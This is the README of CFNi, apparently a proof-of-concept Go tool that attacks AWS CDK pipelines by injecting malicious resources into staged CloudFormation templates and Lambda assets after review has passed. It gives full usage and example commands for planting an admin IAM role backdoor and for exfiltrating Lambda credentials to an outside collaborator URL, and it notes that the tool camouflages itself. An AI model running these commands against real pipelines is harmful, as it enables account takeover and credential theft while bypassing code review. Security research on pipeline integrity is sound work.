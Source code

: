 # CFNi - Cloudformation injection
![Build Status](https://github.com/hupe1980/cfni/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/cfni.svg)](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Attacks
The proof-of-concept currently supports the following attacks:
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)

### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
  -b, --bucket string                 bucket name (required)  
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
  -b, --bucket string                 bucket name (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)

![camouflage](assets/camouflage.png)

## License
[MIT](LICENCE)